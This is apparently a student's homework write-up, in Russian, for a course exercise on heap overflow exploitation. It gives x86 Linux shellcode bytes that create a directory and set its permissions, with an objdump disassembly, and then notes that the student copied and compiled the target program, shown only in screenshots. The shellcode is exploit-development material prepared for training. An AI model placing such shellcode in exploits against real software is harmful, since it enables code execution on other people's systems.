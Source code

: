 # Орехов Роман ДЗ № 2
Урок 5. Видеоурок 3 - Переполнение кучи

Разработать эксплойт, который бы содержал шелл-код с полезной нагрузкой для программы prog5 из видео 0х03.02. Обязательно убедиться в работоспособности шелл-кода (шелл-код будет предоставлен).

`$ cat mkdir_shell.str`

`\x31\xc0\x50\x68\x54\x45\x53\x54\xb0\x27\x89\xe3\x66\x41\xcd\x80\xb0\x0f\x66\xb9\xff\x01\xcd\x80\x31\xc0\x40\xcd\x80\xb0\x01\x31\xdb\xcd\x80`


`$ objdump -D -M intel mkdir_shell | grep -A16 "<shellcode>"`

```
0804a040 <shellcode>:
804a040: 31 c0 xor eax,eax
804a042: 50 push eax
804a043: 68 54 45 53 54 push 0x54534554
804a048: b0 27 mov al,0x27
804a04a: 89 e3 mov ebx,esp
804a04c: 66 41 inc cx
804a04e: cd 80 int 0x80
804a050: b0 0f mov al,0xf
804a052: 66 b9 ff 01 mov cx,0x1ff
804a056: cd 80 int 0x80
804a058: 31 c0 xor eax,eax
804a05a: 40 inc eax
804a05b: cd 80 int 0x80
804a05d: b0 01 mov al,0x1
804a05f: 31 db xor ebx,ebx
804a061: cd 80 int 0x80
```
Выполнение:

Переписал с методички текст проги

![изображение](https://github.com/Bravo-47/binary/assets/52736408/ce661979-afda-4d6c-b4de-e3bc2d4d2429)

Скомпилировал

![изображение](https://github.com/Bravo-47/binary/assets/52736408/00bba689-4d03-49f8-8fc7-7f9203de839f)




